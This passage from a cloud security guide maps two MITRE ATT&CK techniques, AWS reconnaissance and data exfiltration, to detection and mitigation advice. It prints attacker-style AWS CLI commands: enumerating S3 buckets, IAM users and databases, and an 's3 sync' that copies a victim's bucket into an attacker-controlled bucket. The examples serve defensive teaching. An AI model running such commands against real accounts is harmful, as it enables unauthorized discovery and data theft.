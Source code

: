 **Tactic: Discovery**

**T1580: Cloud Infrastructure Discovery**
*Example*: Attacker enumerates AWS environment
*Cloud Context*:
- Attacker obtains low-privilege IAM credentials
- Runs reconnaissance:
  ```bash
  aws s3 ls  # Enumerate S3 buckets
  aws ec2 describe-instances  # Find EC2 instances
  aws iam list-users  # Enumerate IAM users
  aws rds describe-db-instances  # Find databases
  ```

*Detection*:
- CloudTrail anomaly detection (unusual number of describe/list API calls)
- Calls from unexpected geolocation or IP
- AWS GuardDuty: "Recon:IAMUser/InstanceEnumeration"

*Mitigation*:
- Least-privilege IAM (most roles don't need list/describe permissions)
- IAM policy conditions (restrict API calls to specific IP ranges, VPCs)
- Monitoring and alerting on reconnaissance patterns

**Tactic: Exfiltration**

**T1537: Transfer Data to Cloud Account**
*Example*: Attacker exfiltrates data to their own AWS account
*Cloud Context*:
- Attacker compromises S3 bucket with overly permissive policy
- Copies data to attacker-controlled S3 bucket in different AWS account
  ```bash
  aws s3 sync s3://victim-bucket s3://attacker-bucket --acl bucket-owner-full-control
  ```

*Detection*:
- VPC Flow Logs showing large data transfers
- S3 access logs showing cross-account access
- AWS Macie detecting sensitive data movement
- CloudWatch metrics: unusual S3 GetObject, ListBucket volume

*Mitigation*:
- S3 Block Public Access enabled at account/organization level
- S3 bucket policies restricting cross-account access
- AWS PrivateLink for S3 (data never leaves AWS network)
- DLP monitoring (AWS Macie)
- Encrypt data with customer-managed KMS keys (attacker can't decrypt)

**The ATT&CK Advantage**: By mapping your cloud infrastructure to specific ATT&CK techniques, you can:
1. Understand exactly how attackers will target your specific architecture
2. Implement detections for each technique
3. Measure security coverage (e.g., "we detect 73% of Initial Access techniques")
4. Prioritize security investments based on real-world threat intelligence

---
